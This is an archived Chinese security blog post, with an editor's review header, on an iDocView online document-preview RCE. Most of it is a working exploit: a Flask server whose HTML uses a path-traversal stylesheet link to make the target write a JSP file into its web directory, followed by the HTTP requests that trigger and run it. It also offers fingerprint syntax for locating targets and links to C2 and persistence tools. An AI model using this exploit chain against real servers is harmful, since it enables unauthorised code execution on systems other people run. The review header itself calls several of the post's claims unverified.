



# 0day   XVE-2023-23743 RCE 漏洞（附 EXP）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：iDocView在线文档预览
- 本文讨论：XVE-2023-23743 html/2word外部资源路径遍历写JSP
- 版本、权限与配置前提：&lt;13.10.1_20231115；目标需访问攻击者HTTP资源并写可执行docview目录
- 资料类型：短利用链PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 严重误归H3C网络设备，实际北京卓软iDocView
- cnvd字段塞XVE编号，命名空间错误
- 需特定部署路径/系统分隔符/可执行JSP条件未说明；成功仅图
- 原始脚本来源称网上无精确链接；关注领取指纹占位
- 已落实的文本修订：HTTP 报文围栏改为 http；编号保留原值并纠正命名空间字段。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 版本边界/路径与请求编码、截图待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wHNmO5X9eEI4xH5VkOP-cw)<table data-mpa-powered-by="yiban.io"><tbody><tr><td width="557" valign="top" height="62"><section><strong>声明：</strong>该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</section></td></tr></tbody></table>

现在只对常读和星标的公众号才展示大图推送，建议大家把**阿无安全** “设为星标”，否则可能看不到了！

**0x01 前言**

IDocView 在线文档预览系统是由北京卓软在线信息技术有限公司开发的一套系统，用于在 Web 环境中展示和预览各种文档类型，如文本文档、电子表格、演示文稿、PDF 文件等。该系统存在 RCE 漏洞，可直接控制服务器权限。

**0x02 漏洞影响**

    影响版本

```
iDocView < 13.10.1_20231115

```

**0x03 漏洞利用**

登录界面



直接利用网上已公布的脚本进行复现

```
from flask import Flask
app = Flask(__name__)
@app.route('/index.html')
def index():
  return """<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
  <title>title</title>
    <link rel="stylesheet" href="..\\..\\..\\docview\\aaaa.jsp">
</head>
<body>
</body>
</html>"""
@app.route('/..\\..\\..\\docview\\aaaa.jsp')
def jsp():
  return '''<% 
out.print("123");
%>'''
if __name__ == '__main__':
  app.run(host="0.0.0.0", port=39999)

```

EXP:  
  

```http
GET /html/2word?url=http://10.0.85.2:39999/index.html HTTP/1.1
Host: 127.0.0.1:7070
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

**success！**



```http
GET /aaaa.jsp HTTP/1.1
Host: 127.0.0.1:7070
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```



**0x04 修复方案**

```
请升级最新版本。 

```

**0x05 下载地址**

**点击下方名片进入公众号**

**回复【********idoc********】获取指纹语法**


往期推荐 · 值得阅看

[CVE-2023-2317 RCE 漏洞](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483981&idx=1&sn=39fe7a4494fac9b0b5956f70756c13d3&chksm=c0b20740f7c58e563e7e965e3087b806777a1213e6bbcb639f9852c60ea51bf26be97bcfdf6a&scene=21#wechat_redirect)  

[苕皮期间~ 致远 OA 0day 漏洞](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484010&idx=1&sn=960515c7cb4a2d0ec047c91748f40495&chksm=c0b20767f7c58e7102b9c617cf7686ad17ae942d6ac5abc611ef09241c504f27f43213dfd8b0&scene=21#wechat_redirect)

[苕皮期间~ 用友 Nday 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483931&idx=1&sn=61b6410e6f9d1a245e85708889bead5b&chksm=c0b20716f7c58e00501258bade789dcf7167673f282865e24f81be41e6a31d3f245a4c6dd1d2&scene=21#wechat_redirect)

[CVE-2023-3450 RCE 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484037&idx=1&sn=acebf911f8303db77877b48cdc84d9d1&chksm=c0b20788f7c58e9edc4e6bbc70fb2c2a33473f8e8cf64b4d52c0061c771cb485b702b2b55e35&scene=21#wechat_redirect)  

[CVE-2023-26469 RCE 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484030&idx=1&sn=f457c979e0f01ad991b9287aaa24d604&chksm=c0b20773f7c58e65ead3e92141ab7f55af292b8c783ff1ae79cdffc9ace0fdafebb0893ed134&scene=21#wechat_redirect)

[CVE-2023-4120 某设备注入漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247484052&idx=1&sn=8aec1c2d9eb9554a8cf5f3f5672c254f&chksm=c0b20799f7c58e8f800dbfbbe83728790b87e9042b29409ef9bab58d38176aef90ec6c737727&scene=21#wechat_redirect)

[CVE-2023-4450 | JeecgBoot RCE 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483689&idx=1&sn=a2c3e62fc0cd256106d5b60fce9760ea&chksm=c0b20424f7c58d3242a3d8766f9a0fd033de6ecb016431376eee83421e529eb209530f3e84ae&scene=21#wechat_redirect)

[NB！分享一款神器 Linux 权限维持 Tools（附下载）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483986&idx=1&sn=bf1edbbf2c6544ae32c2f477d21b3baa&chksm=c0b2075ff7c58e49256b13f051beee5599a845e5d10aead29b489ae4792cce08d0902414a62e&scene=21#wechat_redirect)  

[分享一款 WEB 界面的高仿 CobaltStrike C2 远控 Tools（附下载）](http://mp.weixin.qq.com/s?__biz=MzkwMTUzNDgxOA==&mid=2247483998&idx=1&sn=4315e04ad5199ca667801160d6ed172d&chksm=c0b20753f7c58e456244481c639ed47742ca6def86bf03d6f73127bf022baabeeb7b8d079501&scene=21#wechat_redirect)  

  

  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
